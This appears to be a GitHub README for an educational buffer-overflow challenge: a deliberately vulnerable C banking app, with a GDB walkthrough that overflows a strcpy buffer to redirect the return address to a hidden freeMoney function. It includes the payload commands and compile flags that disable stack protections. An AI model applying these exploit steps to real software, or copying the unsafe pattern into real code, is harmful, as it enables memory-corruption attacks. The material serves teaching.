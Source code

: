 
## Overview
This repository contains a simple banking application in C designed to demonstrate a buffer overflow vulnerability. The application allows users to input their name and display a fixed balance. However, due to improper handling of user input, it is possible to trigger a hidden function that grants a large sum of money.
## Challange
The objective of this challenge is to exploit the buffer overflow vulnerability in the print_balance function to call the freeMoney function, which increases the user's balance by $1,000,000.
## Overflow Walkthrough
We are going to leverage the vulnerability in the [`strcpy`](https://www.geeksforgeeks.org/strcpy-in-c/) function, which is unsafe because it does not perform bounds checking on the destination buffer. This means that if the input exceeds the size of the buffer, it can overwrite adjacent memory, leading to undefined behavior, including potential exploitation.

To demonstrate this vulnerability, we will use [GDB (GNU Debugger)](https://en.wikipedia.org/wiki/GNU_Debugger), a powerful tool that allows us to inspect and control the execution of programs. GDB will enable us to set breakpoints, observe memory, and understand how the buffer overflow occurs.

**Start GDB with the Compiled Application**  
   Begin by running the command to start debugging the application:  
   ```
   gdb unsafe_bank_app
   ```

**Set Breakpoint**  
   Set a breakpoint at line 12, just after the `strcpy` call in the `print_balance` function:  
   ```exit
   break 12
   ```  
   This breakpoint will allow us to pause execution just after the unsafe copy operation, enabling us to inspect the state of the program before the overflow occurs.

**Run the Application with Your Name**  
   Execute the application with a name argument:  
   ```
   run Skip
   ```

**Check the Stack Pointer**  
   Inspect the stack pointer with the following command:  
   ```
   x/40x $rsp
   ```  
   Here, we can observe the contents of the stack and understand how the buffer is laid out in memory.
    ![RSP 1](./images/rsp_1.png)

| Box Color            | Component                                       |Desc                 |
| ----------------- | ------------------------------------------------------------------ |--|
| White | Buffer | Where our input will be stored|
| Yellow | Padding  | Memory location we will need to fill with bytes to reach the return address.|
|  Green  |Return Adress | A pointer indicating where to continue execution after a function call. |

Our objective is to reach the return address in memory and overwrite it with the address of the `freeMoney` function.

**Test Buffer Overflow with A's**  
   Next, we will run the application with a payload of 128 A's to trigger the overflow:  
   ```
   run $(python3 -c 'print(128 * "A")')
   ```
**Check the Stack Pointer Again**  
   we will inspect the stack pointer once more:  
   ```
   x/40x $rsp
   ```
  ![RSP 2](./images/rsp_2.png)

  We can see we filled the buffer with bunch of As (0x41s in Hex)

   Let's confinute the exection by running `continue` in `gdb`:
   
![Seg Fault](./images/seg_fault.png)

This shows that our input has affected the stack and led to a segmentation fault due to the overflow.

Now, let's proceed to overflow the buffer up to the return address.

**Fill the Padding and Return Address**  
  Now, we will run the application using a payload that includes padding represented by Bs, followed by Cs to overwrite the return address:
   ```
   run $(python3 -c 'print(128 * "A" + 8 * "B" + 8 * "C")')
   ```

**Check the Stack Pointer Again**  
   Inspect the stack pointer:  
   ```
   x/40x $rsp
   ```  
  ![RSP 3](./images/rsp_3.png)


We can confirm that the padding has been successfully filled with Bs and the return address has been overwritten with Cs. Next, let's retrieve the memory address of the `freeMoney` function.


**Disassemble the `freeMoney` Function**  
   Check the disassembly of the `freeMoney` function:  
   ```
   disas freeMoney
   ```
  ![freeMoneyDisas](./images/freeMoneyDisas.png)

We need the address that points to the beginning of the function, as highlighted in the photo.


**Get the Address and Convert Address to Little Endian**  
    Convert the address to [little-endian format](https://en.wikipedia.org/wiki/Endianness), which stores the least significant byte first. This arrangement is essential for constructing our payload correctly, ensuring the bytes are in the order the system expects during execution.

**Run the Final Payload**  
    Execute the application with the crafted payload:  
    ```
    run $(python3 -c 'print(128 * "A" + 8 * "B" + "\x89\x51\x55\x55\x55\x55\x00\x00")')
    ```

 **Check the Stack Pointer Again**  
    Finally, inspect the stack pointer one last time. 
```
x/40x $rsp
```
Here, we will confirm the state of the buffer and verify whether we successfully over written the return address with the `freeMoney` memory address.

![rsp_4](./images/rsp_4.png)

**Continue the Execution**

Let's proceed with the execution and see the outcome.

![success](./images/success.png)

Success! We have successfully triggered the freeMoney function!

## Try It Yourself

#### Clone the project
```bash
  git clone https://github.com/xSk1p/simple-buffer-overflow-in-c.git
```

#### Go to the project directory
```bash
  cd simple-buffer-overflow-in-c
```

#### Compile
To accurately simulate a buffer overflow, disable certain security features like stack canaries and non-executable stack. Use the following compilation flags when building your program:
```bash
  gcc -g -fno-stack-protector -z execstack -o unsafe_bank_app unsafe_bank_app.c
```

#### Run the app
```bash
  ./unsafe_bank_app <name>
```


## Note

This challenge is for educational purposes. Approach this topic with an understanding of ethical hacking.

For further reading on buffer overflows and related concepts, you may find the following resource helpful:

- [Buffer Overflow Basics](https://www.owasp.org/index.php/Buffer_Overflow)
- [Buffer Overflow Exploits](https://www.cs.usfca.edu/~ejung/courses/683/lectures/buffer.pdf)

## License

Licensed under MIT, see [LICENSE](./LICENSE.md)

